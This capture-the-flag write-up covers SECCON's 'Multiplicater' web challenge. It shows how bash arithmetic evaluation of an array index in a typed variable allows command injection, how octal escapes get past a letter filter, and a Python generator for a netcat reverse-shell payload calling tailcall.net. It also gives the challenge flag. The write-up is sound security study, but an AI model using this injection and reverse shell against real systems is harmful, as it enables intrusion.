 # Multiplicater (web, 457p, 10 solved)

In the challenge we get access to a [cgi script](index.cgi).

The script is not very complex:

- It sets the variables var1 and var2 to be integer (yes, bash can have types variables!)
- It reads POST parameters we send via HTTP form, splits them with `awk` to extract the values
- Then it decodes urlencode
- Then it filters all letters from the input
- Finally it performs `bash arithmetic evaluation` of `var1 * var2`

```bash
typeset -i var1
typeset -i var2

POST_STRING=$(cat)

var1="$(echo $POST_STRING|awk -F'&' '{print $1}'|awk -F'=' '{print $2}'| nkf -w --url-input|tr -d a-zA-Z)"
var2="$(echo $POST_STRING|awk -F'&' '{print $2}'|awk -F'=' '{print $2}'| nkf -w --url-input|tr -d a-zA-Z)"

echo  "$var1" '*' "$var2 = $((var1 * var2))"
```

We don't know where the flag is, so we need an actual RCE here.

First issue here is that `tr -d a-zA-Z` removes all letters, so any payload we send has to be free of those.
This is not terrible if we can evaluate things like `'$\101'` in bash, because they will be interpolated to letters.

Another issue is that `var1` and `var2` upon assignment will be evaluated and casted to int.
Anything that is not a valid int will result in `0`.
This means that we can't really "leak" much with the last echo, because it will `always` result in integer, and it's inputs will always be integers.

This leaves us with not much space at all, we somehow need to gain RCE with `var1="$(echo SOMETHING)"

This assignment, since the variable is typed, performs `arithmetic evaluation` before the assignment.
If we read the documentation, it `claims` thar such evaluation does perform shell expansion and variable substitution, however if we try to send a simple sanity check like `$$` as variable value, it doesn't actually work.

It took us a while, and actually someone reading through bash source code of the evaluation, to find out that there is a very special case for `evaluating array index` which is far more powerful!
I fact it provides full RCE there.

For example we can't do:

```bash
typeset -i var1
x='$(touch hacked)'
var1="$(echo $x)"
```

But we can do:

```bash
typeset -i var1
x='__[$(touch hacked)]'
var1="$(echo $x)"
```
And it actually works :)

With this it's pretty clear what to do, we just need to place a reverse-shell in such payload.
Remeber we can't use `a-zA-Z` but as mentioned earlier, we can easily bypass this:

```python
def encode(string):
    x = ["$'\\" + str(oct(ord(c)))[1:] + "'" for c in string]
    return "".join(x)
```

With this we can simply run:

```python
def main():
    echo = encode("echo")
    bash = encode("bash")
    payload = encode("nc tailcall.net 6666 | bash | nc tailcall.net 7777")
    pattern = "__[$(%s %s|%s)]" % (echo, payload, bash)
    print(pattern)


main()
```

And connect to the target server to get the flag: `SECCON{Did_you_calculate_it?}`

